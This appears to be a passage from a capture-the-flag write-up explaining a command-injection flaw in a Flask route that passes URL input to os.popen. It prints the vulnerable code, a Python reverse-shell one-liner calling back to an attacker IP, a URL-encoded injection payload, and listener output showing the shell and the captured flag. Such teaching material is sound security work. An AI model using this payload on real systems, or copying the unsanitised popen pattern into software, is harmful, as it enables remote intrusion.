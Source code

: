     @app.route('/section/')
    @app.route('/section/<nr>')
    def section(nr="1"):
      ret = os.popen('apropos -s ' + nr + " .").read()
      return render_template('section.html', commands=parseCommands(ret), nr=nr)
    

Just like the search function above, it is taking user input, building a
string to pass to `os.popen`. But this time, there’s no input sanitization.
There’s a ton of ways to take `apropos -s <input> .` and make it run what
arbitrary code. `;` can break the previous command and start another. `$()` or
```` `` can run commands in a subshell. The limiting factor here is that the
input is passed via the url, not in the POST body. That limits what can be
sent, as characters such as `/` seem to break it.

#### Shell Via /section/

I’ll show the easier path first. I’ll grab a Python reverse shell from
[PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-
cheat-sheet), and after updating the IP and port it looks like:

    
    
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    

However, this doesn’t return a shell. It turns out that `python` isn’t
installed on the box, which is becoming more and more common. Changing the
command above to invoke with `python3` fixes the issue. After some URL
encoding, this url in Firefox will trigger a shell:

    
    
    https://81d42999-f27b-4c83-8e4e-3c75f138246f.idocker.vuln.land/section/%60python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.13.0.10%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)'%60
    

After a second, at the `nc` listener on port 443, a shell comes back:

    
    
    root@kali# nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 152.96.7.3.
    Ncat: Connection from 152.96.7.3:50476.
    $ id
    uid=1000(runner) gid=1000(runner) groups=1000(runner)
    

The flag is in the same directory:

    
    
    $ cat flag
    HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!} 
    

**Flag:`HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`**

````